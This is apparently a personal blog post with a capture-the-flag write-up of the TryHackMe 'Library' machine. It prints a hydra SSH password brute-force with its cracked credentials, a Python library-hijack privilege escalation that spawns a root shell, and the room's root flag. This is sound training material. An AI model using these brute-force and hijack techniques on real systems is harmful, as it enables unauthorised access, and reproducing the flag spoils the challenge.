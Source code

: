 ```yaml
---
layout: post
title:  "THM: Library"
date:   2021-01-02 19:45:00 +1100
category: hacking
---
```


## Introduction
*boot2root machine for FIT and bsides guatemala CTF*

This is [Library](https://tryhackme.com/room/bsidesgtlibrary) from THM. Like Dav, this one is ranked easy and doesn't give any hints as to what it's about. I've been away at the beach for a few days hence no hacking. In fact, these were the first days I've not done any at all for probably 6 months.

## Ports
HTTP and SSH only, on the standard ports.

## HTTP
This is where I spent the *vast* majority of the time on this box. The landing page was a very basic blog but did include a form supposedly for posting a comment. I tried an escalating series of gobusting searches but found nothing useful. 

I ran various fuzzing techniques on the the POST request with Burp Suite. I captured a request and ran it against **sqlmap**; nothing.

I downloaded a few images and ran some basic stego checks against them; nothing.

Eventually I ran *hydra* against SSH:

{% highlight shell %}
root@kali:/opt/tryhackme/bsidesgtlibrary# hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.75.13
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-02 03:36:49
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.75.13:22/
[STATUS] 151.00 tries/min, 151 tries in 00:01h, 14344249 to do in 1583:16h, 16 active
[22][ssh] host: 10.10.75.13   login: meliodas   password: iloveyou1
{% endhighlight %}

## Privesc
Presumably this was supposed to be the main challenge of this box, but it's effectively the same as Wonderland.

{% highlight shell %}
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
meliodas@ubuntu:~$ cat /home/meliodas/bak.py
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
meliodas@ubuntu:~$
{% endhighlight %}

So; we have a script which we can run as root that imports both **os** and **zipfile**. We can create our own version of *zipfile.py*, make it executable, and ....

{% highlight shell %}
root@ubuntu:~# cat zipfile.py 
import os
os.system("/bin/bash")
meliodas@ubuntu:~$ sudo -u root /usr/bin/python3 /home/meliodas/bak.py
root@ubuntu:~# cd /root/
root@ubuntu:/root# ls -lash
total 28K
4.0K drwx------  3 root root 4.0K Aug 24  2019 .
4.0K drwxr-xr-x 22 root root 4.0K Aug 24  2019 ..
4.0K -rw-------  1 root root   43 Aug 24  2019 .bash_history
4.0K -rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
4.0K drwxr-xr-x  2 root root 4.0K Aug 23  2019 .nano
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -rw-r--r--  1 root root   33 Aug 23  2019 root.txt
root@ubuntu:/root# cat root.txt
e8c8c6c256c35515d1d344ee0488c617
{% endhighlight %}

That was that.
